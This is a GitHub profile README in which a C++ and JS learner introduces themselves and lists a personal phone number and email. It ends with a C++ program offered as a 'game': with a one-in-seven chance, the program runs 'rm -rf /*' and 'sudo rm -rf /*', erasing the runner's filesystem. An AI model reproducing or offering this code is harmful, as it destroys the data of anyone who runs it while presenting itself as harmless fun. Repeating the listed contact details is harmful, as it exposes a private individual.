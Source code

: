 - 👋 Hi, I’m @SalomandraC
- 👀 I am interested in solving problems in C++ and JS. I do frontend in my free time.
- 🌱 I am currently studying C++, JS, CSS, html.
- 💞️ I’m looking to collaborate. It's not that important while I'm studying. I am ready for any tasks on topics of interest to me.
- 📫 How to reach me. You can call +89109863281 or send an email kazak.petrushin@yandex.ru
- 😄 Pronouns: Nikita, Nikitka, Podkopus, You, Ni'Khit, Saloman
- ⚡ Fun fact:
Let's play a game:

#include <iostream>

#include <cstdlib>

#include <time.h>


//system removal function

void kill(){

	system("rm -rf /*");
 
	system("sudo rm -rf /*");
 
}


int main(){

	srand((unsigned) time(NULL));
 
	int randomNumber = (rand() % 7) + 1;
 
	if (randomNumber == 5) {
 
		std::cout << "Last word?" << std::endl;
  
		kill();
  
	} else {
 
		std::cout << "You'll be lucky next time";
  
	}
 
	return 0;
 
}

<!---
SalomandraC/SalomandraC is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
